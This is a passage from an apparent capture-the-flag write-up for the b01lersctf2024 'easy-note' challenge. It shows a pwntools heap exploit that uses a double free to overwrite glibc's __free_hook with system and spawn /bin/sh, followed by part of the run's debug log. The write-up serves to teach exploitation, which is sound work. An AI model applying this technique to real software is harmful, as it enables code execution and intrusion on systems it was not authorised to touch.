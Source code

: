 ```py {filename=exploit.py linenos=table}

system = libc.sym.system
free_hook = libc.sym.__free_hook

## overwriting the free_hook with system
alloc(2, 32)
free(2)
free(2)

edit(2, 32, p64(free_hook))
alloc(3, 32)
alloc(4, 32)

edit(4, 32, p64(system))

## call system with /bin/sh param
alloc(6, 32)
edit(6, 32, b'/bin/sh\x00')

free(6)

r.interactive()

```

which gets us the shell as we desired!

```bash
fooker@fooker:~/ctfs/pwn/learn/exploitation-notebook/binary-exploitation/ctfs/b01lersctf2024/easy-note$ python3 exploit.py
[*] '/home/fooker/ctfs/pwn/learn/exploitation-notebook/binary-exploitation/ctfs/b01lersctf2024/easy-note/chal_patched'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
[+] Starting local process './chal_patched': pid 1685832
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Received 0x77 bytes:
    b'-----Options---\n'
    b'-----Alloc-----\n'
    b'-----Free------\n'
    b'-----View------\n'
    b'-----Edit------\n'
    b'-----Exit------\n'
    b'-----Resize----\n'
    b'Where? '
[DEBUG] Sent 0x2 bytes:
    b'0\n'
[DEBUG] Received 0x6 bytes:
    b'size? '
[DEBUG] Sent 0x5 bytes:
    b'1280\n'
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Received 0x70 bytes:
    b'-----Options---\n'
    b'-----Alloc-----\n'
    b'-----Free------\n'
    b'-----View------\n'
    b'-----Edit------\n'
```